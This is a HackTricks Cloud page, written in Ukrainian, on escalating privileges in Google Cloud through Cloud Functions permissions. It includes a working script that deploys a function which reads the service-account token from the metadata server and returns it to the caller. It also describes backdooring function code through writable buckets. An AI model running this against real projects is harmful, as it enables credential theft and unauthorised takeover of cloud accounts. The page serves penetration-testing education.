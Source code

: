 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Більше інформації про Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **створити нову Cloud Function з довільним (шкідливим) кодом і призначити їй обліковий запис служби**. Потім, витягнути токен облікового запису служби з метаданих, щоб підвищити привілеї до нього.\
Можливо, знадобляться деякі привілеї для активації функції.

Скрипти експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) і [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), а попередньо зібраний .zip файл можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Зловмисник з цими привілеями може **модифікувати код Функції і навіть змінити обліковий запис служби, що прикріплений** з метою ексфільтрації токена.

{% hint style="danger" %}
Щоб розгорнути cloud functions, вам також знадобляться дозволи actAs над обліковим записом служби за замовчуванням або над обліковим записом служби, який використовується для створення образу.
{% endhint %}

Додаткові привілеї, такі як дозвіл `.call` для версії 1 cloudfunctions або роль `role/run.invoker` для активації функції можуть бути необхідні.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Якщо ви отримуєте помилку `Permission 'run.services.setIamPolicy' denied on resource...`, це означає, що ви використовуєте параметр `--allow-unauthenticated` і у вас недостатньо прав для цього.
{% endhint %}

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

З цією дозволом ви можете отримати **підписане URL, щоб завантажити файл до функціонального бакету (але код функції не буде змінено, вам все ще потрібно його оновити)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Не зовсім впевнений, наскільки корисним є лише цей дозвіл з точки зору атакуючого, але добре знати.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Надайте собі будь-які з попередніх **`.update`** або **`.create`** привілеїв для ескалації.

### `cloudfunctions.functions.update`

Маючи лише **`cloudfunctions`** дозволи, без **`iam.serviceAccounts.actAs`** ви **не зможете оновити функцію, ТОМУ ЦЕ НЕ Є ДІЙСНИМ ПРИВІЛЕЄМ.**

### Доступ на читання та запис до бакету

Якщо у вас є доступ на читання та запис до бакету, ви можете моніторити зміни в коді, і коли **відбувається оновлення в бакеті, ви можете оновити новий код своїм кодом**, з яким нова версія Cloud Function буде запущена з поданим бекдором.

Ви можете дізнатися більше про атаку в:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Однак ви не можете використовувати це для попереднього компрометації сторонніх Cloud Functions, тому що якщо ви створите бакет у своєму обліковому записі та надасте йому публічні дозволи, щоб зовнішній проект міг записувати в нього, ви отримаєте наступну помилку:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Однак це може бути використано для DoS-атак.
{% endhint %}

### Доступ на читання та запис до Artifact Registry

Коли створюється Cloud Function, новий образ docker завантажується до Artifact Registry проекту. Я намагався змінити образ на новий, і навіть видалити поточний образ (та образ `cache`), і нічого не змінилося, cloud function продовжує працювати. Тому, можливо, **можливо зловживати атакою Race Condition** як з бакетом, щоб змінити контейнер docker, який буде запущено, але **просто зміна збереженого образу не можлива для компрометації Cloud Function**.

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
